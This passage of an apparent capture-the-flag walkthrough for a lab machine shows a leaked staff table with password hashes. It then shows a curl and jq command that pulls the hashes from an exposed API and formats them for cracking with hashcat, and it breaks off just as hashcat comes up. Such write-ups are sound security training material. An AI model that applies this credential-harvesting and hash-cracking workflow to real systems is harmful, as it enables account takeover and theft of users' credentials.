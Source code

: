    [
      {
        "user_id":1,
        "username":"christine.wool",
        "password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
        "fullname":"Christine Wool",
        "role":"Founder, CEO",
        "phone":"0415202922"
      },
      {
        "user_id":2,
        "username":"christopher.jones",
        "password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
        "fullname":"Christopher Jones",
        "role":"Salesperson",
        "phone":"0456980001"
      },
      {
        "user_id":3,
        "username":"jackson.lightheart",
        "password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
        "fullname":"Jackson Lightheart",
        "role":"Salesperson",
        "phone":"0419444111"
      },
      {
        "user_id":4,
        "username":"bean.hill",
        "password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
        "fullname":"Bean Hill",
        "role":"System Administrator",
        "phone":"0432339177"
      }
    ]



#### Crack Hashes

I'll use `curl` and `jq` to fetch the data into a crackable format:



    oxdf@hacky$ curl -s http://hat-valley.htb/api/staff-details | jq -r '.[] | (.username + ":" + .password)' | tee hashes
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f



Running `hashcat` without giving it a hash mode (`-m`) will return that
the hashes are ambiguous:

